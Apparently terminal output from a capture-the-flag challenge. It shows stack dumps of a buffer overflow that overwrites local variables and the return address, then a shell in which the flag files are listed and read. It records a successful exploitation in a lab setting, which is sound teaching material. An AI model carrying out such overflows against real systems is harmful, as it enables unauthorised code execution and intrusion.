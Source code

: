 ```
0xffbba520 | 00 00 00 00 00 00 00 00 |
0xffbba528 | 00 00 00 00 00 00 00 00 |
0xffbba530 | 00 00 00 00 00 00 00 00 |
0xffbba538 | ff ff ff ff ff ff ff ff |
0xffbba540 | ff ff ff ff ff ff ff ff |
0xffbba548 | 00 00 00 00 30 30 30 30 |
0xffbba550 | 30 30 30 30 18 a0 04 08 |
Return address: 0x0804a018

Input some text:
Legend: buff MODIFIED padding MODIFIED
  notsecret MODIFIED secret MODIFIED
  return address MODIFIED
0xffbba518 | 30 30 30 30 30 30 30 30 |
0xffbba520 | 30 30 30 30 30 30 30 30 |
0xffbba528 | 30 30 30 30 30 30 30 30 |
0xffbba530 | 30 30 30 30 30 30 30 30 |
0xffbba538 | 30 30 30 30 30 30 30 30 |
0xffbba540 | 30 30 30 30 30 30 30 30 |
0xffbba548 | 30 30 30 30 30 30 30 30 |
0xffbba550 | 30 30 30 30 00 22 d6 f7 |
Return address: 0xf7d62200

$ w
 23:51:51 up 1 day,  2:12,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
$ ls
bin
boot
dev
etc
flag.txt
flag2.txt
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
server
srv
sys
tmp
usr
var
$ cat flag.txt
utc{c0ntr0ling_r1p_1s_n0t_t00_h4rd}
$ cat flag2.txt
utc{c0ngrat1s_0n_th1s_sh3ll!}
```